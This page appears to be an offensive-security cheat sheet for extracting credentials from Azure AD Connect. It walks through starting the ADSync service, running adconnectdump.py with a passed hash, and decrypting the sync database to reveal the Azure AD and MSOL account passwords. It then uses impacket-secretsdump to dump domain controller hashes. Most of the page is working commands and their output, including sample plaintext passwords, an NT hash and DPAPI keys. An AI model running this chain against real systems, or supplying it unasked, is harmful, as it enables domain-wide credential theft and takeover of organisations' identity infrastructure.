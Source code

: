 ```yaml
---
title: "Azure AD Connect"
date: 2025-02-21
tags: ["Azure AD Connect", "Secretsdump", "ADSync", "Password", "Active Directory", "Windows"]
---
```


### Abuse #1: Azure AD Connect Password Extraction

{{< tab set1 tab1 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Start ADSync Service

```console
Set-Service -name adsync -StartupType automatic
```

```console
Set-Service -name adsync -status running -passthru
```

```console {class="sample-code"}
Set-Service -name adsync -status running -passthru
WARNING: Waiting for service 'Microsoft Azure AD Sync (adsync)' to start...

Status   Name               DisplayName                           
------   ----               -----------                           
Running  adsync             Microsoft Azure AD Sync
```

#### 2. Download ADSync.mdf and ADSync_log.LDF

```console
python3 adconnectdump.py <DOMAIN>/<USER>@<TARGET_DOMAIN> -hashes :<HASH>
```

```console {class="sample-code"}
$ python3 adconnectdump.py SRV001/Administrator@srv001.example.local -hashes :7ddf32e17a6ac5ce04a8ecbf782ca509
Azure AD Connect remote credential dumper - by @_dirkjan
[*] Stopping service ADSync
[*] Downloading ADSync database files
[*] Starting service ADSync
[*] Querying database for configuration data
[-] RemoteOperations failed: [Errno 2] No such file or directory: 'ADSyncQuery.exe'
[*] Cleaning up...
```

#### 3. Queries credentials from the database

```console
# Copy both ADSync.mdf and ADSync_log.LDF to WindowsVM
.\ADSyncQuery.exe C:\adconnectdump\ADSyncDecrypt\ADSyncQuery\bin\Release\ADSync.mdf > out.txt
```

```console {class="sample-code"}
PS C:\adconnectdump\ADSyncDecrypt\ADSyncQuery\bin\Release> .\ADSyncQuery.exe C:\adconnectdump\ADSyncDecrypt\ADSyncQuery\bin\Release\ADSync.mdf > out.txt
```

#### 4. Credentials Dump

```console
# Copy out.txt back to Linux
python3 adconnectdump.py <DOMAIN>/<USER>@<TARGET_DOMAIN> -hashes :<HASH> --existing-db --from-file out.txt
```

```console {class="sample-code"}
$ python3 adconnectdump.py SRV001/Administrator@srv001.example.local -hashes :7ddf32e17a6ac5ce04a8ecbf782ca509 --existing-db --from-file out.txt  
Azure AD Connect remote credential dumper - by @_dirkjan
[*] Loading configuration data from out.txt on filesystem
[*] Loading configuration data from out.txt on filesystem
[*] Querying LSA secrets from remote registry
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x987bea20b50bfc66c273c58af1db3f81
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
[*] DPAPI_SYSTEM 
[*] Found DPAPI machine key: 0x7d9f2ed42e9261104b0741930fe622a71b6b4f50
[*] NL$KM 
[*] New format keyset detected, extracting secrets from credential store
[*] Querying credential file 406287F0CFB069C8F8686B36D48A941E
[*] Found SID S-1-5-80-3245704983-3664226991-764670653-2504430226-901976451 for NT SERVICE\ADSync Virtual Account
[*] Decrypted ADSync user masterkey using SYSTEM UserKey + SID
[*] Found correct encrypted keyset to decrypt data
[*] Decrypting DPAPI data with masterkey 22D587F4-2779-4509-BA70-A611200BCC5E
[*] Decrypting encrypted AD Sync configuration data
[*] Azure AD credentials
[*]     Username: Sync_SRV001_2a1d03e02d11@a67632354763outlook.onmicrosoft.com
[*]     Password: A9]*w+X#Ox(YQ%{/
[*] Local AD credentials
[*]     Domain: example.LOCAL
[*]     Username: MSOL_2a1d03e02d12
[*]     Password: Mf#o@7f%CG^p}7fhAX*kubH:=nc:+-Vr%@OTf(Dli}GRM@YYt/a%{_XH%wmtI(Z]teQg+E0:Jw#vU;*[!^S76-#@:J|$-|>x-I)$Rd*N&TkIt+vJnAaI;)toY+J2m=z
[*] Cleaning up... 
[*] Stopping service RemoteRegistry
```

#### 5. Secrets Dump

```console
impacket-secretsdump <DOMAIN>/<USER>:'<PASSWORD>'@<TARGET_DOMAIN> -just-dc
```

```console {class="sample-code"}
$ proxychains4 -q impacket-secretsdump example.local/MSOL_2a1d03e02d12:'Mf#o@7f%CG^p}7fhAX*kubH:=nc:+-Vr%@OTf(Dli}GRM@YYt/a%{_XH%wmtI(Z]teQg+E0:Jw#vU;*[!^S76-#@:J|$-|>x-I)$Rd*N&TkIt+vJnAaI;)toY+J2m=z'@dc.example.local -just-dc
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7ddf32e17a6ac5ce04a8ecbf782ca509:::
---[SNIP]---
```

<small>*Ref: [adconnectdump](https://github.com/dirkjanm/adconnectdump/tree/master)*</small>

{{< /tabcontent >}}
